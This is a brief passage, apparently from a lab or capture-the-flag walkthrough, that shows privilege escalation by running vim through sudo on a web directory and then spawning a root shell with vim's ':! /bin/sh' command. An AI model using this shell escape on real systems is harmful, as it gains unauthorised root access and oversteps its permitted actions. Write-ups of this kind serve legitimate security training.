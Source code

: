 ![](./images/03/03.png)


* Now we can try to get root access by running vim on the ``/var/www/html/documents`` directory with root privileges using the following command:

```bash
sudo /usr/bin/vim /var/www/html/documents
```

* Here we can try to spawn a shell through vims' internal command line executor by using the command after pressing the <escape> key:

```vim
:! /bin/sh
```

![](./images/03/04.png)